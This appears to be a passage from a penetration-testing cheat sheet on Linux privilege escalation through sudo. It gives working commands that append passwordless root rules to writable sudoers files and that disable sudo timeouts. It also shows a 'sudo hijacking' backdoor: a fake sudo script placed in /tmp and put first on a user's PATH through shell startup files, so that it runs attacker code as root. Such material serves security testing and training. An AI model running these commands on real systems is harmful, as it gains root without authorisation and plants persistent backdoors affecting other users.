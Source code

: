 ```bash
ls -l /etc/sudoers /etc/sudoers.d/
ls -ld /etc/sudoers.d/
```

If you can write you can abuse this permission

```bash
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers.d/README
```

Another way to abuse these permissions:

```bash
# makes it so every terminal can sudo
echo "Defaults !tty_tickets" > /etc/sudoers.d/win
# makes it so sudo never times out
echo "Defaults timestamp_timeout=-1" >> /etc/sudoers.d/win
```

### DOAS

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

```
permit nopass demo as root cmd vim
```

### Sudo Hijacking

If you know that a **user usually connects to a machine and uses `sudo`** to escalate privileges and you got a shell within that user context, you can **create a new sudo executable** that will execute your code as root and then the user's command. Then, **modify the $PATH** of the user context (for example adding the new path in .bash_profile) so when the user executes sudo, your sudo executable is executed.

Note that if the user uses a different shell (not bash) you will need to modify other files to add the new path. For example[ sudo-piggyback](https://github.com/APTy/sudo-piggyback) modifies `~/.bashrc`, `~/.zshrc`, `~/.bash_profile`. You can find another example in [bashdoor.py](https://github.com/n00py/pOSt-eX/blob/master/empire_modules/bashdoor.py)

Or running something like:

```bash
cat >/tmp/sudo <<EOF
#!/bin/bash
/usr/bin/sudo whoami > /tmp/privesc
/usr/bin/sudo "\$@"
EOF
chmod +x /tmp/sudo
echo ‘export PATH=/tmp:$PATH’ >> $HOME/.zshenv # or ".bashrc" or any other

# From the victim
zsh
echo $PATH
sudo ls
```
